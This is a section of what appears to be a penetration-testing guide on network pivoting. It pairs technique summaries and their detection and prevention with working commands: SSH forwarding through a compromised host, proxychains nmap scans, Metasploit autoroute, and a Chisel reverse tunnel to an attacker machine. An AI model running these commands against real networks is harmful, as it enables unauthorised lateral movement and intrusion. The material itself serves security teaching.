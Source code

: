 ### 6.3 Network Pivoting

Using compromised systems to access otherwise unreachable networks:

1. **Port Forwarding**:
   - Technique: Redirecting traffic through compromised hosts
   - Tools: SSH, Socat, Chisel
   - Purpose: Accessing services on internal networks
   - Detection: Unusual network connections, traffic analysis
   - Prevention: Network segmentation, egress filtering

2. **Proxy Tunneling**:
   - Technique: Creating proxy connections through compromised hosts
   - Tools: Proxychains, SOCKS proxies, Meterpreter
   - Purpose: Routing attack traffic through compromised systems
   - Detection: Unusual outbound connections, protocol analysis
   - Prevention: Egress filtering, application whitelisting

3. **VPN Pivoting**:
   - Technique: Creating VPN connections through compromised hosts
   - Tools: Sshuttle, OpenVPN, Meterpreter
   - Purpose: Full network access through compromised systems
   - Detection: Unusual encrypted traffic, network monitoring
   - Prevention: Network segmentation, traffic analysis

```bash
# Example: Network pivoting techniques

# Step 1: SSH port forwarding
# Local port forwarding (access remote service locally)
ssh -L 8080:internal-server:80 user@compromised-host

# Remote port forwarding (expose local service to remote host)
ssh -R 8080:localhost:80 user@compromised-host

# Dynamic port forwarding (SOCKS proxy)
ssh -D 9050 user@compromised-host

# Step 2: Use proxychains with SSH dynamic forwarding
echo "socks5 127.0.0.1 9050" >> /etc/proxychains.conf
proxychains nmap -sT -P0 192.168.2.0/24

# Step 3: Metasploit pivoting
# From a Meterpreter session:
meterpreter > run autoroute -s 192.168.2.0/24
meterpreter > background

# Set up a SOCKS proxy
use auxiliary/server/socks_proxy
set VERSION 5
set SRVPORT 9050
run

# Use proxychains with Metasploit SOCKS proxy
proxychains nmap -sT -P0 192.168.2.100

# Step 4: Chisel pivoting
# On attacker machine:
./chisel server -p 8080 --reverse

# On compromised host:
./chisel client 192.168.1.50:8080 R:socks
```

